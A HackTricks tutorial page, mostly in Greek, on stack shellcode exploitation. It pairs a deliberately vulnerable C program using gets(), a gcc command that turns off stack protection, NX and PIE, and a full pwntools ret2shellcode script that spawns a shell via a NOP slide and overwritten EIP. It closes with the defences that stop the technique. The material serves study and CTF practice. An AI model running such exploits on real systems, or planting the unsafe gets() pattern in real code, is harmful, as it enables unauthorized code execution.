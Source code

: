 # Stack Shellcode

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**Stack shellcode** είναι μια τεχνική που χρησιμοποιείται στην εκμετάλλευση δυαδικών αρχείων, όπου ένας επιτιθέμενος γράφει shellcode στη στοίβα ενός ευάλωτου προγράμματος και στη συνέχεια τροποποιεί τον **Δείκτη Εντολών (IP)** ή τον **Εκτεταμένο Δείκτη Εντολών (EIP)** για να δείξει στη θέση αυτού του shellcode, προκαλώντας την εκτέλεσή του. Αυτή είναι μια κλασική μέθοδος που χρησιμοποιείται για να αποκτήσει μη εξουσιοδοτημένη πρόσβαση ή να εκτελέσει αυθαίρετες εντολές σε ένα στοχευμένο σύστημα. Ακολουθεί μια ανάλυση της διαδικασίας, συμπεριλαμβανομένου ενός απλού παραδείγματος C και πώς θα μπορούσατε να γράψετε μια αντίστοιχη εκμετάλλευση χρησιμοποιώντας Python με **pwntools**.

### C Example: A Vulnerable Program

Ας ξεκινήσουμε με ένα απλό παράδειγμα ενός ευάλωτου προγράμματος C:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
Αυτό το πρόγραμμα είναι ευάλωτο σε υπερχείλιση μνήμης λόγω της χρήσης της συνάρτησης `gets()`.

### Συγκέντρωση

Για να συγκεντρώσετε αυτό το πρόγραμμα απενεργοποιώντας διάφορες προστασίες (για να προσομοιώσετε ένα ευάλωτο περιβάλλον), μπορείτε να χρησιμοποιήσετε την παρακάτω εντολή:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: Απενεργοποιεί την προστασία της στοίβας.
* `-z execstack`: Κάνει τη στοίβα εκτελέσιμη, κάτι που είναι απαραίτητο για την εκτέλεση του shellcode που είναι αποθηκευμένο στη στοίβα.
* `-no-pie`: Απενεργοποιεί το Position Independent Executable, διευκολύνοντας την πρόβλεψη της διεύθυνσης μνήμης όπου θα βρίσκεται το shellcode μας.
* `-m32`: Συμπιέζει το πρόγραμμα ως 32-bit εκτελέσιμο, συχνά χρησιμοποιούμενο για απλότητα στην ανάπτυξη εκμεταλλεύσεων.

### Python Exploit using Pwntools

Here's how you could write an exploit in Python using **pwntools** to perform a **ret2shellcode** attack:
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
Αυτό το σενάριο κατασκευάζει ένα payload που αποτελείται από μια **NOP slide**, το **shellcode**, και στη συνέχεια αντικαθιστά το **EIP** με τη διεύθυνση που δείχνει στην NOP slide, διασφαλίζοντας ότι το shellcode θα εκτελεστεί.

Η **NOP slide** (`asm('nop')`) χρησιμοποιείται για να αυξήσει την πιθανότητα ότι η εκτέλεση θα "γλιστρήσει" στο shellcode μας ανεξάρτητα από τη ακριβή διεύθυνση. Ρυθμίστε το επιχείρημα `p32()` στη διεύθυνση εκκίνησης του buffer σας συν μια απόσταση για να προσγειωθείτε στην NOP slide.

## Προστασίες

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) **θα πρέπει να είναι απενεργοποιημένο** για να είναι η διεύθυνση αξιόπιστη σε όλες τις εκτελέσεις ή η διεύθυνση όπου θα αποθηκευτεί η συνάρτηση δεν θα είναι πάντα η ίδια και θα χρειαστείτε κάποια leak για να καταλάβετε πού είναι φορτωμένη η win function.
* [**Stack Canaries**](../common-binary-protections-and-bypasses/stack-canaries/) θα πρέπει επίσης να είναι απενεργοποιημένα ή η συμβιβασμένη διεύθυνση επιστροφής EIP δεν θα ακολουθηθεί ποτέ.
* Η προστασία **NX** (../common-binary-protections-and-bypasses/no-exec-nx.md) **stack** θα αποτρέψει την εκτέλεση του shellcode μέσα στο stack επειδή αυτή η περιοχή δεν θα είναι εκτελέσιμη.

## Άλλα Παραδείγματα & Αναφορές

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
* 64bit, ASLR με leak διεύθυνσης stack, γράψτε shellcode και πηδήξτε σε αυτό
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
* 32 bit, ASLR με leak stack, γράψτε shellcode και πηδήξτε σε αυτό
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
* 32 bit, ASLR με leak stack, σύγκριση για να αποτραπεί η κλήση στο exit(), αντικαταστήστε μια μεταβλητή με μια τιμή και γράψτε shellcode και πηδήξτε σε αυτό

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

